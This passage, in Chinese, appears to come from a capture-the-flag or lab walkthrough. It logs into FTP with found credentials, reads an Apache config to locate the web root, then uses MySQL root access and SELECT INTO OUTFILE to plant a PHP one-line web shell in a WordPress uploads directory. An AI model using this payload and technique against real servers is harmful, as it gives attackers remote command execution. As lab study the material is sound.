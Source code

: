 ### mysql 向文件中写入一句话

使用用户名 elly 与密码 ylle 登入 ftp 服务，查看 apache 配置文件 apache2/sites-available/default-ssl.conf

```plain
ftp:192.168.179.149
cd apache2
cd sites-available
get default-ssl.conf
exit
查看该文件并寻找网站根目录
cat default-ssl.conf | grep DocumentRoot
```

[![](assets/1699929525-6304b96e3cb46d0bb5395e739731c8df.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231112140410-4c2f1b36-8121-1.png)

使用用户名 root 与密码 pplbkac 登录 mysql，并向/blogblog/wp-content/uploads 写入一句话木马文件 exce.php

```plain
mysql -h 192.168.179.149 -uroot -pplbkac
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/https/blogblog/wp-content/uploads/exec.php";
```

[![](assets/1699929525-528b03de318f68a3b8b2bdfb2d7a0a65.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231112140429-5734da66-8121-1.png)

此时 upload 目录下多了一个 exec.php 文件

[![](assets/1699929525-cf65dbdf9bb56d9ab880caa5928185dd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231112140445-6117b7ce-8121-1.png)
